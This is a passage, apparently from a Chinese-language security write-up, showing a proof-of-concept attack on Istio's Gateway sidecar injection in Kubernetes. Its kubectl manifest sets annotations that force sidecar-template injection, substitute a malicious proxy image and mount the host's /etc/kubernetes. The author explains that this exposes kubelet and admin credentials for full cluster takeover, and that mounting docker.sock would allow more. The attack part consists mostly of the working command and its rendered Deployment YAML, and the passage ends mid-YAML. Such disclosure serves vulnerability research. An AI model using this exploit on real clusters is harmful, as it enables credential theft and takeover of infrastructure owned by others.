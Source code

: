 ```bash
```

commit 之前记得把 image 的 entrypoint 改为 `/usr/local/bin/pilot-agent`

接着利用下列的命令完成攻击，注意我覆盖了注解中的 `inject.istio.io/templates` 为 sidecar 使能让 k8s controller 在创建 pod 任务的时候，让其注解中的 `inject.istio.io/templates` 也为 sidecar，这样 istiod 的 inject webhook 就会按照 sidecar 的模版进行渲染 pod 资源文件， `sidecar.istio.io/userVolume` 和 `sidecar.istio.io/userVolumeMount` 我这里挂载了 `/etc/kubernetes` 目录，为了和上面的恶意镜像相辅相成， POC 的效果就是直接打印出 Host 中 `/etc/kubernetes` 目录下的凭证及配置文件，利用 kubelet 的凭证或者 admin token 就可以提权完成接管整个集群，当然你也可以挂载 docker.sock 可以做到更完整的利用。

```bash
kubectl --as test create -f - << EOF
apiVersion: gateway.networking.k8s.io/v1alpha2
kind: Gateway
metadata:
  name: gateway
  namespace: istio-ingress
  annotations:
    inject.istio.io/templates: sidecar
    sidecar.istio.io/proxyImage: docker.io/shtesla/proxyv2:malicious
    sidecar.istio.io/userVolume: '[{"name":"kubernetes-dir","hostPath": {"path":"/etc/kubernetes","type":"Directory"}}]'
    sidecar.istio.io/userVolumeMount: '[{"mountPath":"/tmp/test","name":"kubernetes-dir"}]'
spec:
  gatewayClassName: istio
  listeners:
  - name: default
    hostname: "*.example.com"
    port: 80
    protocol: HTTP
    allowedRoutes:
      namespaces:
        from: All
EOF
```

创建完 Gateway 后 istiod inject webhook 也按照我们的要求创建了 pod

![gateway_pod_yaml](assets/1711960601-82f2c083247d6d976727ab1cf72bb796.png)

![docker_image](assets/1711960601-e9d13060be6a5b705e9d7affbb6e337b.png)

deployments 最终被渲染如下:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  annotations:
    deployment.kubernetes.io/revision: "1"
    inject.istio.io/templates: sidecar
    [...]
    sidecar.istio.io/proxyImage: docker.io/shtesla/proxyv2:malicious
    sidecar.istio.io/userVolume: '[{"name":"kubernetes-dir","hostPath": {"path":"/etc/kubernetes","type":"Directory"}}]'
    sidecar.istio.io/userVolumeMount: '[{"mountPath":"/tmp/test","name":"kubernetes-dir"}]'
  generation: 1
  labels:
    gateway.istio.io/managed: istio.io-gateway-controller
  name: gateway
  namespace: istio-ingress
spec:
  progressDeadlineSeconds: 600
  replicas: 1
  revisionHistoryLimit: 10
  selector:
```
